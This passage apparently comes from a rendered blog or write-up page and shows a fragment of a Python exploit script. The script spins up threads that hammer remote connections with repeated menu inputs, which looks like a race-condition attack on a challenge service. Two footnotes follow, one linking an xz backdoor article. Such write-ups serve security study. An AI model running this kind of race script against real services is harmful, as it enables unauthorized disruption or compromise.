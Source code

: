 ```python
                print(ttt)
                exit(-1)
        tt = ttt

def y():
    tt = b''
    while True:
        ttt = r3.recvuntil('>')
        if tt != ttt:
            print(ttt[12000:])
            print(ttt.decode())
        tt = ttt


def z():
    tt = b''
    while True:
        ttt = r4.recvuntil('>')
        if tt != ttt:
            print(ttt[12000:])
            print(ttt.decode())
        tt = ttt


def xx():
    tt = b''
    while True:
        ttt = r2.sendline('5')


def yy():
    tt = b''
    while True:
        ttt = r3.sendline('5')



def zz():
    tt = b''
    while True:
        ttt = r4.sendline('5')



tx = threading.Thread(target=x)
# ty = threading.Thread(target=y)
tz = threading.Thread(target=z)
txx = threading.Thread(target=xx)
# tyy = threading.Thread(target=yy)
tzz = threading.Thread(target=zz)




#r.interactive()


create('aaaaaa', 'aaaaa', r3)
create('aaaaaa1', 'aaaaa', r3)
create('aaaaa1a', 'aaaaa', r3)
create('aaaa1aa', 'aaaaa', r3)

tx.start()
```

[^1]: https://boehs.org/node/everything-i-know-about-the-xz-backdoor
[^2]: 원래 그랬는지는 잘 모르겠다. 